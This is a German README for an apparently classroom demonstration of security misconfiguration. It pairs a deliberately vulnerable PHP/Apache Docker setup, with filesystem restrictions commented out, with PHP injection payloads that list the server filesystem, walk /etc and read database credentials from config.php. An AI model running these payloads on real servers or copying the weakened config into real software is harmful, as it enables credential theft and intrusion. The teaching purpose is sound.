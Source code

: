 # ITS2023 Security Misconfiguration Demonstration

Dieses Projekt dient als Demonstrationsbeispiel für unseren Vortrag über `Security Misconfiguration`.

>*WICHTIG:* Dieses Projekt sollte `NIEMALS` ausserhalb einer geschützten Umgebung ausgeführt werden!!!

# Dateiübersicht

```Text
.                                       Apache2 Webroot /var/www/html
├── README.md
├── docker-compose.yml                  Docker-Compose Datei
|
├── config.php                          Zugangsdaten für z.b. MYSQL DB
├── mysite                              Root der demo Webseite
│   ├── execute.php                     PHP Script welches anfällig für PHP Injection ist
│   └── index.html                      Einstiegspunkt der Webseite
|
└── test-httpd.conf                     Apache Konfiguration
```

## httpd.conf

```conf
<VirtualHost *:80>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks          # erlaubt indexing durch webserver
        # php_admin_value open_basedir /var/www/html    # Limitiert PHP Dateisystemzugriffe auf webroot
        # php_admin_value doc_root /            # Updated PHP Dateisystem root
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

## docker-compose.yml

```yml
version: '3.1'

services:
  php:
    image: php:apache
    volumes:
      - ./:/var/www/html/
      - ./test-httpd.conf:/etc/apache2/sites-available/000-default.conf
    restart: unless-stopped
```

# Getting started

Im Projektverzeichnise 
> `docker-compose up -d`  

ausführen.


Webseite findet sich unter [http://localhost/mysite](http://localhost/mysite)

# PHP Injection Beispiele

## PHP Script Arbeitsverzeichnis ausgeben
```PHP
echo getcwd();
```
## Dateien im Sever Dateisystem Root ausgeben

### Simple
```PHP
$files = scandir('/'); $output = implode("\n", $files); echo $output;
```

### Tree
```PHP
function list_directory($directory, $level = 0, $prefix = '') {
    $files = scandir($directory);

    // Filter out the '.' and '..' entries
    $files = array_filter($files, function ($file) {
        return $file != '.' && $file != '..';
    });

    $count = count($files);

    foreach ($files as $i => $file) {
        $isLast = $i === $count - 1;

        // Prepare the prefix for child nodes
        $childPrefix = $prefix . ($isLast ? '    ' : '│   ');

        // Display the tree branch
        echo $prefix . ($isLast ? '└── ' : '├── ') . $file;

        $path = $directory . '/' . $file;

        if (!file_exists($path) || !is_readable($path)) {
            echo " (not readable or doesnt exist) <br>";
            continue;
        }

        // Display file details similar to 'ls -la'
        $info = new SplFileInfo($path);
        $type = $info->getType();
        $permissions = substr(sprintf('%o', $info->getPerms()), -4);
        $size = $info->getSize();
        $modified = date('Y-m-d H:i:s', $info->getMTime());

        echo " ({$type}, permissions: {$permissions}, size: {$size} bytes, last modified: {$modified})<br>";

        // If the file is a directory, list its contents
        if (is_dir($path)) {
            list_directory($path, $level + 1, $childPrefix);
        }
    }
}

list_directory('/etc');
```

## Datenbankverbindungsinformationen auslesen

### Mit bekannten Variablennamen
```PHP
include '/var/www/html/config.php'; echo DB_HOST . "\n"; echo DB_USER . "\n"; echo DB_PASSWORD . "\n"; echo DB_NAME . "\n";
```

### Via fopen
```PHP
$filename = '../config.php';
$file = fopen($filename, 'r');
if ($file) {
    while (($line = fgets($file)) !== false) {
        echo htmlspecialchars($line);
    }
    fclose($file);
} else {
    echo 'Error opening file.';
}
```

## Wie verhindern?
- Dokumentation lesen / System verstehen
- Entwicklungsumgebung und Produktivumgebung trennen
- Immer nur das mindeste an Berechtigungen geben
- `Best practice` verwenden
- ...

